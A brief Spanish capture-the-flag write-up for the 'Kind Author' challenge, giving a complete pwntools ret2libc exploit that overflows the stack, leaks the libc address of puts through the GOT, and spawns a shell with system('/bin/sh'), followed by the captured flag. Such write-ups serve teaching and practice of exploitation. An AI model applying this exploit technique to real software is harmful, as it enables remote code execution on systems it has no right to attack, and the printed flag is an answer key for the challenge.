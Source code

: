 # Kind Author

Para ganar debemos hacer un ret2libc basandonos en un simple stackoverflow. El autor proporciona incluso una funcion llamada `ROPHelp` con un gadget `pop rdi;ret`.

No voy a extenderme, solo a dejar el exploit. Mas informacion aqui: https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/ret2libc

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./KindAuthor")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
break main
'''

domain= "ctf.mf.grsu.by"
port = 9075

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================
payload = b"A" * 40
payload += p64(0x0040114a) + p64(elf.sym.got.puts)
payload += p64(elf.sym.puts)
payload += p64(elf.sym.func)
r.sendlineafter(b":",payload)

r.recv()
l = r.recvline().strip().ljust(8,b"\x00")
got_puts = u64(l,16)
libc.address = got_puts - libc.sym.puts
log.info(f"LIBC_PUTS: {hex(got_puts)}")
log.info(f"LIBC_BASE_ADDRESS: {hex(libc.address)}")

_bin_sh = next(libc.search(b"/bin/sh\x00"))
payload = b"A" * 40
payload += p64(0x0040114a) + p64(_bin_sh)

payload += p64(0x0040114b)                # ret to stack alignment
payload += p64(libc.sym.system)
r.sendline(payload)


r.interactive()
```

`grodno{bL491M1_N4M3R3n1Y4m1_VYm05ch3n4_d0R094_v_5h3lL}`
